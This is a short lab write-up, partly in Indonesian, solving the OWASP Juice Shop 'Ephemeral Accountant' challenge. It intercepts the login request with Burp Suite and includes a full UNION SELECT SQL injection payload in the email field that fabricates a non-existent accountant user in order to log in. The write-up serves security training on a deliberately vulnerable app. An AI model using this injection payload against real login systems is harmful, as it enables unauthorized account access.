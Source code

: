 # Soal Ephemeral Accountant

**Description:** Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user.

**Resource:** https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

## Langkah Pengerjaan:
1. Dengan menggunakan BurpSuite, saya bisa mendapatkan request yang dikirimkan oleh web untuk login
![alt text](assets/image7.png)
2. Dengan melakukan modifikasi pada request tersebut saya bisa membuat seolah-olah, akun yang sebenarnya tidak ada menjadi ada untuk beberapa saat ketika query dikirimkan
```
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'halohalo' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "halohalo"
}
```
3. Berhasil login dengan akun sementara yang sebenarnya tidak pernah ada pada website
![alt text](assets/image8.png)


Soal ini berhasil diselesaikan dengan mengikuti petunjuk pada write-up di https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/4-stars/ephemeral_accountant.md